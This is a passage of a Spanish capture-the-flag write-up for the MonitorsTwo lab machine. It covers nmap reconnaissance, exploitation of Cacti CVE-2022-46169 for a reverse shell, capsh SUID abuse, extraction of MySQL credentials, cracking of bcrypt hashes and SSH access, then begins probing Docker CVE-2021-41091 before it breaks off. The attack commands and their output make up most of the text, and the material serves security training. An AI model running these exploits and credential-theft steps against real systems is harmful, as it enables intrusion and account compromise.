



# MonitorsTwo

`MonitorsTwo` es una máquina Linux de dificultad fácil que muestra una variedad de vulnerabilidades y configuraciones erróneas. La enumeración inicial expone una aplicación web propensa a la ejecución de código remoto (RCE) previa a la autenticación a través de un encabezado X-Forwarded-For malicioso. La explotación de esta vulnerabilidad otorga un shell dentro de un contenedor Docker. Un binario capsh mal configurado con el bit SUID establecido permite el acceso de root dentro del contenedor. El descubrimiento de las credenciales de MySQL permite el volcado de un hash, que, una vez descifrado, proporciona acceso SSH a la máquina. Una enumeración adicional revela una versión vulnerable de Docker (CVE-2021-41091) que permite a un usuario con pocos privilegios acceder a los sistemas de archivos del contenedor montados. Aprovechando el acceso de root dentro del contenedor, se copia un binario bash con el bit SUID establecido, lo que resulta en una escalada de privilegios en el host.

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con **nmap** para ver los puertos que están expuestos en la máquina **MonitorsTwo**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.211 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 02:19 CET
Initiating SYN Stealth Scan at 02:19
Scanning 10.10.11.211 [65535 ports]
Discovered open port 22/tcp on 10.10.11.211
Discovered open port 80/tcp on 10.10.11.211
Completed SYN Stealth Scan at 02:20, 12.75s elapsed (65535 total ports)
Nmap scan report for 10.10.11.211
Host is up, received user-set (0.13s latency).
Scanned at 2025-02-16 02:19:54 CET for 13s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.85 seconds
           Raw packets sent: 65548 (2.884MB) | Rcvd: 65554 (2.622MB)
```

A través de la herramienta de [`extractPorts`](https://pastebin.com/X6b56TQ8), la utilizaremos para extraer los puertos del archivo que nos generó el primer escaneo a través de `Nmap`. Esta herramienta nos copiará en la clipboard los puertos encontrados.

```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.211
	[*] Open ports: 22,80

[*] Ports copied to clipboard
```

Lanzaremos scripts de reconocimiento sobre los puertos encontrados y lo exportaremos en formato oN y oX para posteriormente trabajar con ellos. En el resultado, comprobamos que se encuentran abierta una página web de `Nginx`.

```bash
❯ nmap -sCV -p22,80 10.10.11.211 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-16 02:20 CET
Nmap scan report for 10.10.11.211
Host is up (0.060s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
|_http-server-header: nginx/1.18.0 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   59.76 ms 10.10.16.1
2   30.07 ms 10.10.11.211

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```

Transformaremos el archivo generado `targetedXML` para transformar el XML en un archivo HTML para posteriormente montar un servidor web y visualizarlo.

```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Accederemos a[ http://localhost](http://localhost) y verificaremos el resultado en un formato más cómodo para su análisis.

<figure><figcaption></figcaption></figure>

## Initial Foothold

### Cacti 1.2.22 Exploitation - Remote Code Execution \[RCE] (CVE-2022-46169)

Realizaremos una comprobación de las tecnologías que son utilizadas en el sitio web.

```bash
❯ whatweb http://10.10.11.211
http://10.10.11.211 [200 OK] Cacti, Cookies[Cacti], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[Cacti], IP[10.10.11.211], JQuery, PHP[7.4.33], PasswordField[login_password], Script[text/javascript], Title[Login to Cacti], UncommonHeaders[content-security-policy], X-Frame-Options[SAMEORIGIN], X-Powered-By[PHP/7.4.33], X-UA-Compatible[IE=Edge], nginx[1.18.0]
```

Accedemos a http://10.10.11.211 y verificamos que se trata de un panel de inicio de sesión de `Cacti` en la cual se puede verificar que la versión del software es la **1.2.22**.


El sistema de monitero Cacti es un sistema que permite monitorizar cualquier equipo de red que soporte el protocolo SNMP, ya sea un switch, un router o un servidor Linux. Siempre que tengan activado el protocolo SNMP con los distintos OIDs (identificadores de objeto) que podemos monitorizar y visualizar.


<figure><figcaption></figcaption></figure>

Buscamos a través de `searchsploit` si existe alguna vulnerabilidad conocida para dicha versión y nos encontramos con el siguiente resultado.

```bash
❯ searchsploit Cacti 1.2.22
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                      |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cacti v1.2.22 - Remote Command Execution (RCE)                                                                                                                                                      | php/webapps/51166.py
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Revisando en profundidad sobre la vulnerabilidad reportada anteriormente, nos encontramos con el siguiente `CVE-2022-46169`.




Cacti es una plataforma de código abierto que proporciona un framework de gestión de fallos y supervisión operativa robusta y extensible para los usuarios. En las versiones afectadas, una vulnerabilidad de inyección de comandos permite a un usuario no autenticado ejecutar código arbitrario en un servidor que ejecuta Cacti, si se seleccionó una fuente de datos específica para cualquier dispositivo monitoreado. La vulnerabilidad reside en el archivo remote\_agent.php. Se puede acceder a este archivo sin autenticación. Esta función recupera la dirección IP del cliente a través de get\_client\_addr y resuelve esta dirección IP en el nombre de host correspondiente a través de gethostbyaddr. Después de esto, se verifica que existe una entrada dentro de la tabla poller, donde el nombre de host corresponde al nombre de host resuelto. Si se encuentra dicha entrada, la función devuelve "verdadero" y el cliente está autorizado. Esta autorización se puede omitir debido a la implementación de la función get\_client\_addr. La función se define en el archivo lib/functions.php y verifica las variables serval $\_SERVER para determinar la dirección IP del cliente. Un atacante puede establecer arbitrariamente las variables que comienzan con HTTP\_. Dado que hay una entrada predeterminada en la tabla poller con el nombre de host del servidor que ejecuta Cacti, un atacante puede omitir la autenticación, por ejemplo, proporcionando el encabezado Forwarded-For: . De esta forma, la función get\_client\_addr devuelve la dirección IP del servidor que ejecuta Cacti.

La siguiente llamada a gethostbyaddr resolverá esta dirección IP en el nombre de host del servidor, que pasará la verificación del nombre de host poller debido a la entrada predeterminada. Después de omitir la autorización del archivo remote\_agent.php, un atacante puede desencadenar diferentes acciones. Una de estas acciones se llama "polldata". La función llamada poll\_for\_data recupera algunos parámetros de solicitud y carga las entradas correspondientes de poller\_item de la base de datos. Si la acción de un poller\_item es igual a POLLER\_ACTION\_SCRIPT\_PHP, la función proc\_open se usa para ejecutar un script PHP. El parámetro controlado por el atacante $poller\_id se recupera mediante la función get\_nfilter\_request\_var, que permite cadenas arbitrarias. Esta variable luego se inserta en la cadena pasada a proc\_open, lo que genera una vulnerabilidad de inyección de comando. Por ejemplo, al proporcionar poller\_id=;id, se ejecuta el comando id. Para llegar a la llamada vulnerable, el atacante debe proporcionar un host\_id y un local\_data\_id, donde la acción del poller\_item correspondiente está configurada en POLLER\_ACTION\_SCRIPT\_PHP. Ambos identificadores (host\_id y local\_data\_id) pueden ser fácilmente forzados por fuerza bruta. El único requisito es que exista un poller\_item con una acción POLLER\_ACTION\_SCRIPT\_PHP.

Es muy probable que esto ocurra en una instancia productiva porque esta acción se agrega mediante algunas plantillas predefinidas como "Device - Uptimeo "Dispositivo - Polling Time". Esta vulnerabilidad de inyección de comandos permite a un usuario no autenticado ejecutar comandos arbitrarios si se configura unpoller\_itemcon el tipoaction POLLER\_ACTION\_SCRIPT\_PHP (2). La omisión de autorización debe evitarse al no permitir que un atacante haga que get\_client\_addr(archivolib/functions.php) devuelva una dirección IP arbitraria. Esto podría hacerse al no respetar las variables HTTP\_... $\_SERVER. Si se deben conservar por razones de compatibilidad, al menos se debe evitar falsificar la dirección IP del servidor que ejecuta Cacti. Esta vulnerabilidad se ha solucionado en las versiones 1.2.x y 1.3.x, siendo 1.2.23\` la primera versión que contiene el parche.


Realizamos una búsqueda básica por Internet y logramos encontrar diferentes repositorios en los cuales parece ser que nos muestran el `exploit`.

<figure><figcaption></figcaption></figure>

Nos descargaremos el siguiente repositorio de GitHub.



```bash
❯ git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22; cd CVE-2022-46169-CACTI-1.2.22
Clonando en 'CVE-2022-46169-CACTI-1.2.22'...
remote: Enumerating objects: 18, done.
remote: Counting objects: 100% (18/18), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 18 (delta 4), reused 4 (delta 1), pack-reused 0 (from 0)
Recibiendo objetos: 100% (18/18), 5.07 KiB | 5.07 MiB/s, listo.
Resolviendo deltas: 100% (4/4), listo.
```

Nos ponemos en escucha con `nc` para recibir la Reverse Shell.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos el exploit para proporcionarnos una Reverse Shell hacía el equipo vulnerable.

```bash
❯ python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST=10.10.16.3 --LPORT=443
Checking...
The target is vulnerable. Exploiting...
Bruteforcing the host_id and local_data_ids
Bruteforce Success!!
```

Verificamos que nos encontramos en el equipo, pero por lo que parece ser, nos encontramos dentro de un contenedor Docker.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.211] 37662
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@50bca5e748b0:/var/www/html$ hostname -I
172.19.0.3 
```

Realizaremos la siguiente configuración para disponer de una `TTY` interactiva y poder mejorar nuestra experiencia utilizando la terminal.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.211] 37662
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell

www-data@50bca5e748b0:/var/www/html$ script /dev/null -c bash
Script started, output log file is '/dev/null'.

www-data@50bca5e748b0:/var/www/html$ ^Z
zsh: suspended  nc -nlvp 443

❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
                              
www-data@50bca5e748b0:/var/www/html$ export TERM=xterm
www-data@50bca5e748b0:/var/www/html$ export SHELL=bash
www-data@50bca5e748b0:/var/www/html$ stty rows 46 columns 230
```

## Initial Access

### Capsh SUID Binary Exploitation to gain root access

Nos encontramos con el usuario `www-data` en un contenedor de Docker del equipo víctima. Por lo tanto, realizaremos una enumeración para encontrar alguna vía para elevar nuestros privilegios.

Para ello, haremos uso de `linpeas.sh` el cual compartiremos a través de un servidor web.

```bash
❯ ls -l linpeas.sh
.rw-r--r-- kali kali 806 KB Sun Feb 16 02:40:08 2025  linpeas.sh
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde el equipo comprometido, nos descargaremos el binario de `linpeas.sh` y le daremos los permisos correspondientes.

```bash
www-data@50bca5e748b0:/tmp$ wget 10.10.16.3/linpeas.sh; chmod +x linpeas.sh
--2025-02-16 01:41:11--  http://10.10.16.3/linpeas.sh
Connecting to 10.10.16.3:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 824942 (806K) [text/x-sh]
Saving to: 'linpeas.sh'

linpeas.sh                                                100%[===================================================================================================================================>] 805.61K  2.61MB/s    in 0.3s    

2025-02-16 01:41:12 (2.61 MB/s) - 'linpeas.sh' saved [824942/824942]
```

Después de ejecutar el escaneo, verificamos que se nos muestra el binario `/sbin/capsh` el cual dispone de privilegios de `SUID`.

<figure><figcaption></figcaption></figure>

A través de la herramienta de [searchbins](https://github.com/r1vs3c/searchbins), realizaremos una consulta para verificar la manera de abusar de este binario que tiene privilegios de `SUID` para lograr acceso como `root`.

```bash
❯ searchbins -b capsh -f suid

[+] Binary: capsh

================================================================================
[*] Function: suid -> [https://gtfobins.github.io/gtfobins/capsh/#suid]

	| ./capsh --gid=0 --uid=0 --
```

Realizaremos el comando que se nos indicaba para realizar la explotación, comprobamos finalmente que nos hemos podido convertir en usuario `root` del contenedor de Docker.

```bash
www-data@50bca5e748b0:/tmp$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/tmp# 
```

### SQL Enumeration

Realizando una enumeración de archivos en el directorio `/var/www/html/include`, nos encontramos con el archivo `config.php` el cual contiene las credenciales en texto plano para acceder al `MySQL`.

```bash
root@50bca5e748b0:/var/www/html/include# cat config.php 
<?php
/*
 +-------------------------------------------------------------------------+
 | Copyright (C) 2004-2020 The Cacti Group                                 |
 |                                                                         |
 | This program is free software; you can redistribute it and/or           |
 | modify it under the terms of the GNU General Public License             |
 | as published by the Free Software Foundation; either version 2          |
 | of the License, or (at your option) any later version.                  |
 |                                                                         |
 | This program is distributed in the hope that it will be useful,         |
 | but WITHOUT ANY WARRANTY; without even the implied warranty of          |
 | MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the           |
 | GNU General Public License for more details.                            |
 +-------------------------------------------------------------------------+
 | Cacti: The Complete RRDtool-based Graphing Solution                     |
 +-------------------------------------------------------------------------+
 | This code is designed, written, and maintained by the Cacti Group. See  |
 | about.php and/or the AUTHORS file for specific developer information.   |
 +-------------------------------------------------------------------------+
 | http://www.cacti.net/                                                   |
 +-------------------------------------------------------------------------+
*/

/*
 * Make sure these values reflect your actual database/host/user/password
 */

$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

Nos conectaremos al MySQL del hostname `db` y verificaremos las bases de datos que disponemos.

```bash
root@50bca5e748b0:/var/www/html/include# mysql -h db -u root -proot
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 52
Server version: 5.7.40 MySQL Community Server (GPL)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| cacti              |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.004 sec)
```

Enumeraremos la base de datos nombrada `cacti` en la cual dispone de una tabla llamada `user_auth`.

```bash
MySQL [(none)]> USE cacti;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [cacti]> SHOW TABLES;
+-------------------------------------+
| Tables_in_cacti                     |
+-------------------------------------+
| aggregate_graph_templates           |

...[snip]...

| snmpagent_cache                     |
| snmpagent_cache_notifications       |
| snmpagent_cache_textual_conventions |
| snmpagent_managers                  |
| snmpagent_managers_notifications    |
| snmpagent_mibs                      |
| snmpagent_notifications_log         |
| user_auth                           |
| user_auth_cache                     |
| user_auth_group                     |
| user_auth_group_members             |
| user_auth_group_perms               |
| user_auth_group_realm               |
| user_auth_perms                     |
| user_auth_realm                     |
| user_domains                        |
| user_domains_ldap                   |
| user_log                            |
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
111 rows in set (0.001 sec)
```

Al revisar el contenido de la tabla `user_auth`, logramos encontrar credenciales en formato hash de diferentes usuarios.

```bash
MySQL [cacti]> SELECT * FROM user_auth;
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
| id | username | password                                                     | realm | full_name      | email_address          | must_change_password | password_change | show_tree | show_list | show_preview | graph_settings | login_opts | policy_graphs | policy_trees | policy_hosts | policy_graph_templates | enabled | lastchange | lastlogin | password_history | locked | failed_attempts | lastfail | reset_perms |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
|  1 | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |     0 | Jamie Thompson | admin@monitorstwo.htb  |                      | on              | on        | on        | on           | on             |          2 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 | -1               |        |               0 |        0 |   663348655 |
|  3 | guest    | 43e9a4ab75570f5b                                             |     0 | Guest Account  |                        | on                   | on              | on        | on        | on           | 3              |          1 |             1 |            1 |            1 |                      1 |         |         -1 |        -1 | -1               |        |               0 |        0 |           0 |
|  4 | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |     0 | Marcus Brune   | marcus@monitorstwo.htb |                      |                 | on        | on        | on           | on             |          1 |             1 |            1 |            1 |                      1 | on      |         -1 |        -1 |                  | on     |               0 |        0 |  2135691668 |
+----+----------+--------------------------------------------------------------+-------+----------------+------------------------+----------------------+-----------------+-----------+-----------+--------------+----------------+------------+---------------+--------------+--------------+------------------------+---------+------------+-----------+------------------+--------+-----------------+----------+-------------+
3 rows in set (0.000 sec)
```

A través de `john` logramos crackear el hash de las credenciales del usuario `marcus`.

```bash
❯ hashid '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
Analyzing '$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

❯ john --wordlist:/usr/share/wordlists/rockyou.txt hashes
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
funkymonkey      (?)     
1g 0:00:01:07 DONE (2025-02-16 02:49) 0.01474g/s 126.3p/s 126.3c/s 126.3C/s addict..rasengan
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Probamos de autenticarnos con el usuario `marcus` al `SSH` del equipo víctima. Finalmente obtenemos el acceso correspondiente y visualizamos la flag de **user.txt**.

```bash
❯ ssh marcus@10.10.11.211
The authenticity of host '10.10.11.211 (10.10.11.211)' can't be established.
ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.211' (ED25519) to the list of known hosts.
marcus@10.10.11.211's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-147-generic x86_64)

...[snip]...

You have mail.
Last login: Thu Mar 23 10:12:28 2023 from 10.10.14.40
marcus@monitorstwo:~$ cat user.txt 
292dc7e0693179a7c88e2b1b310bcc31
```

## Privilege Escalation

### Docker 20.10.5+dfsg1 Exploitation (CVE-2021-41091)

Revisaremos si el usuario `marcus` dispone de algún grupo o permisos de `sudoers` interesantes, pero no obtenemos resultado.

```bash
marcus@monitorstwo:~$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
marcus@monitorstwo:~$ sudo -l
[sudo] password for marcus: 
Sorry, user marcus may not run sudo on localhost.
```

Después de enumerar diferentes directorios, enumerar el equipo con `linpeas.sh`, etc no logramos obtener resultado. Por lo que decidimos revisar los binarios instalados en el equipo, entre los que se encontraba el de Docker con la siguiente versión.

```bash
marcus@monitorstwo:/tmp$ which docker
/usr/bin/docker
marcus@monitorstwo:/tmp$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Al realizar una búsqueda por Internet de posibles vulnerabilidades de esa versión de `Docker`, nos encontramos con el siguiente `CVE-2021-41091`.




Moby es un proyecto de código abierto creado por Docker para permitir la contención de software. Se encontró un error en Moby (Docker Engine) en el que el directorio de datos (normalmente "/var/lib/docker") contenía subdirectorios con permisos insuficientemente restringidos, lo que permitía a usuarios de Linux no privilegiados saltar el contenido del directorio y ejecutar programas. Cuando los contenedores incluían programas ejecutables con bits de permiso extendidos (como "setuid"), los usuarios no privilegiados de Linux podían detectar y ejecutar esos programas. Cuando el UID de un usuario de Linux no privilegiados en el host colisionaba con el propietario o el grupo de un archivo dentro de un contenedor, el usuario de Linux no privilegiados en el host podía descubrir, leer y modificar esos archivos. Este bug ha sido corregido en Moby (Docker Engine) versión 20.10.9. Usuarios deberían actualizar a esta versión lo antes posible. Los contenedores en ejecución deben ser detenidos y reiniciados para que los permisos sean corregidos. Para usuarios que no puedan actualizar, limite el acceso al host a usuarios confiables. Limite el acceso a los volúmenes del host a los contenedores confiables


<figure><figcaption></figcaption></figure>

Al intentar enumerar si había algún contenedor en ejecución con el comando `docker ps`, nos devolvió un mensaje de error de acceso denegado.

Por lo tanto, decidimos revisar a través del comando `mount` de revisar los puntos de montaje de Docker. Finalmente, comprobamos dos `overlay` que podrían ser los contenedores en ejecución.

```bash
overlay on /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/756FTPFO4AE7HBWVGI5TXU76FU:/var/lib/docker/overlay2/l/XKE4ZK5GJUTHXKVYS4MQMJ3NOB:/var/lib/docker/overlay2/l/3JPYTR54WWK2EX6DJ7PMMAVPQQ:/var/lib/docker/overlay2/l/YWET34PNBXR53LJY2XX7ZIXHLS:/var/lib/docker/overlay2/l/IM3MC55GS7JDB4D2EYTLAZAYLJ:/var/lib/docker/overlay2/l/6TLSBQSLTGP74QVFJVO2GOHLHL:/var/lib/docker/overlay2/l/OOXBDBKU7L25J3XQWTXLGRF5VQ:/var/lib/docker/overlay2/l/FDT56KIETI2PMNR3HGWAZ3GIGS:/var/lib/docker/overlay2/l/JE6MIEIU6ONHIWNBG36DJGDNEY:/var/lib/docker/overlay2/l/IAY73KSFENK4CC5DX5L2HCRFQJ:/var/lib/docker/overlay2/l/UDDRFLWFZYH6I5EUDCDWCOPSZX:/var/lib/docker/overlay2/l/5MM772DWMOBQZAEA4J34QYSZII,upperdir=/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/diff,workdir=/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/work,xino=off)
overlay on /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged type overlay (rw,relatime,lowerdir=/var/lib/docker/overlay2/l/4Z77R4WYM6X4BLW7GXAJOAA4SJ:/var/lib/docker/overlay2/l/Z4RNRWTZKMXNQJVSRJE4P2JYHH:/var/lib/docker/overlay2/l/CXAW6LQU6QOKNSSNURRN2X4JEH:/var/lib/docker/overlay2/l/YWNFANZGTHCUIML4WUIJ5XNBLJ:/var/lib/docker/overlay2/l/JWCZSRNDZSQFHPN75LVFZ7HI2O:/var/lib/docker/overlay2/l/DGNCSOTM6KEIXH4KZVTVQU2KC3:/var/lib/docker/overlay2/l/QHFZCDCLZ4G4OM2FLV6Y2O6WC6:/var/lib/docker/overlay2/l/K5DOR3JDWEJL62G4CATP62ONTO:/var/lib/docker/overlay2/l/FGHBJKAFBSAPJNSTCR6PFSQ7ER:/var/lib/docker/overlay2/l/PDO4KALS2ULFY6MGW73U6QRWSS:/var/lib/docker/overlay2/l/MGUNUZVTUDFYIRPLY5MR7KQ233:/var/lib/docker/overlay2/l/VNOOF2V3SPZEXZHUKR62IQBVM5:/var/lib/docker/overlay2/l/CDCPIX5CJTQCR4VYUUTK22RT7W:/var/lib/docker/overlay2/l/G4B75MXO7LXFSK4GCWDNLV6SAQ:/var/lib/docker/overlay2/l/FRHKWDF3YAXQ3LBLHIQGVNHGLF:/var/lib/docker/overlay2/l/ZDJ6SWVJF6EMHTTO3AHC3FH3LD:/var/lib/docker/overlay2/l/W2EMLMTMXN7ODPSLB2FTQFLWA3:/var/lib/docker/overlay2/l/QRABR2TMBNL577HC7DO7H2JRN2:/var/lib/docker/overlay2/l/7IGVGYP6R7SE3WFLYC3LOBPO4Z:/var/lib/docker/overlay2/l/67QPWIAFA4NXFNM6RN43EHUJ6Q,upperdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/diff,workdir=/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/work,xino=off)
```

```bash
marcus@monitorstwo:~$ docker ps
